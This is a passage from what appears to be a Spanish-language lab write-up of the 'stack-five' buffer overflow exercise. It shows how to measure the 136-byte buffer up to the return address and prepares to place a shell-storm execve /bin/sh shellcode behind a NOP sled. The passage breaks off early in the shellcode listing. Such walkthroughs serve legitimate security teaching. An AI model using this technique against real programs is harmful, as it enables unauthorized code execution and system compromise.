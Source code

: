Vemos que en el **Stack** tenemos permisos de **lectura, escritura y ejecución**.

#### Identificar el tamaño del **Buffer**

Para identificar el tamaño del Buffer podemos calcular cuantos bytes tenemos desde la dirección de memoria en la que se almacena el primer carácter del buffer hasta la dirección de retorno:

Vamos a marcar un Breakpoint justo después de la llamada a la función **gets()** e introducimos **"AAAA"** por stdin en dicha función.

Del desensamblado de la función main() podemos averiguar que la dirección de retorno es `0x004005c7`

![stack](../../../.gitbook/assets/stack-five-6.png)

Si calculamos el número de bytes que existen entre los dos datos obtenemos que son 136 bytes. Ese es el espacio que tenemos para nuestra shellcode y nuestro tobogan de nops.

#### Colocar nuestra **shellcode** en el **Buffer**.

Para este paso necesitamos un shellcode, en este caso vamos a utilzar el siguiente shellcode predefinido de shell-storm:

{% embed url="http://shell-storm.org/shellcode/files/shellcode-806.php" %}

```
/*
 * Execute /bin/sh - 27 bytes
 * Dad` <3 baboon
;rdi            0x4005c4 0x4005c4
;rsi            0x7fffffffdf40   0x7fffffffdf40
;rdx            0x0      0x0
;gdb$ x/s $rdi
;0x4005c4:        "/bin/sh"
;gdb$ x/s $rsi
;0x7fffffffdf40:  "\304\005@"
;gdb$ x/32xb $rsi
;0x7fffffffdf40: 0xc4    0x05    0x40    0x00    0x00    0x00    0x00    0x00
;0x7fffffffdf48: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
;0x7fffffffdf50: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
;0x7fffffffdf58: 0x55    0xb4    0xa5    0xf7    0xff    0x7f    0x00    0x00
;
;=> 0x7ffff7aeff20 <execve>:     mov    eax,0x3b
;   0x7ffff7aeff25 <execve+5>:   syscall 
;

main:
    ;mov rbx, 0x68732f6e69622f2f
```
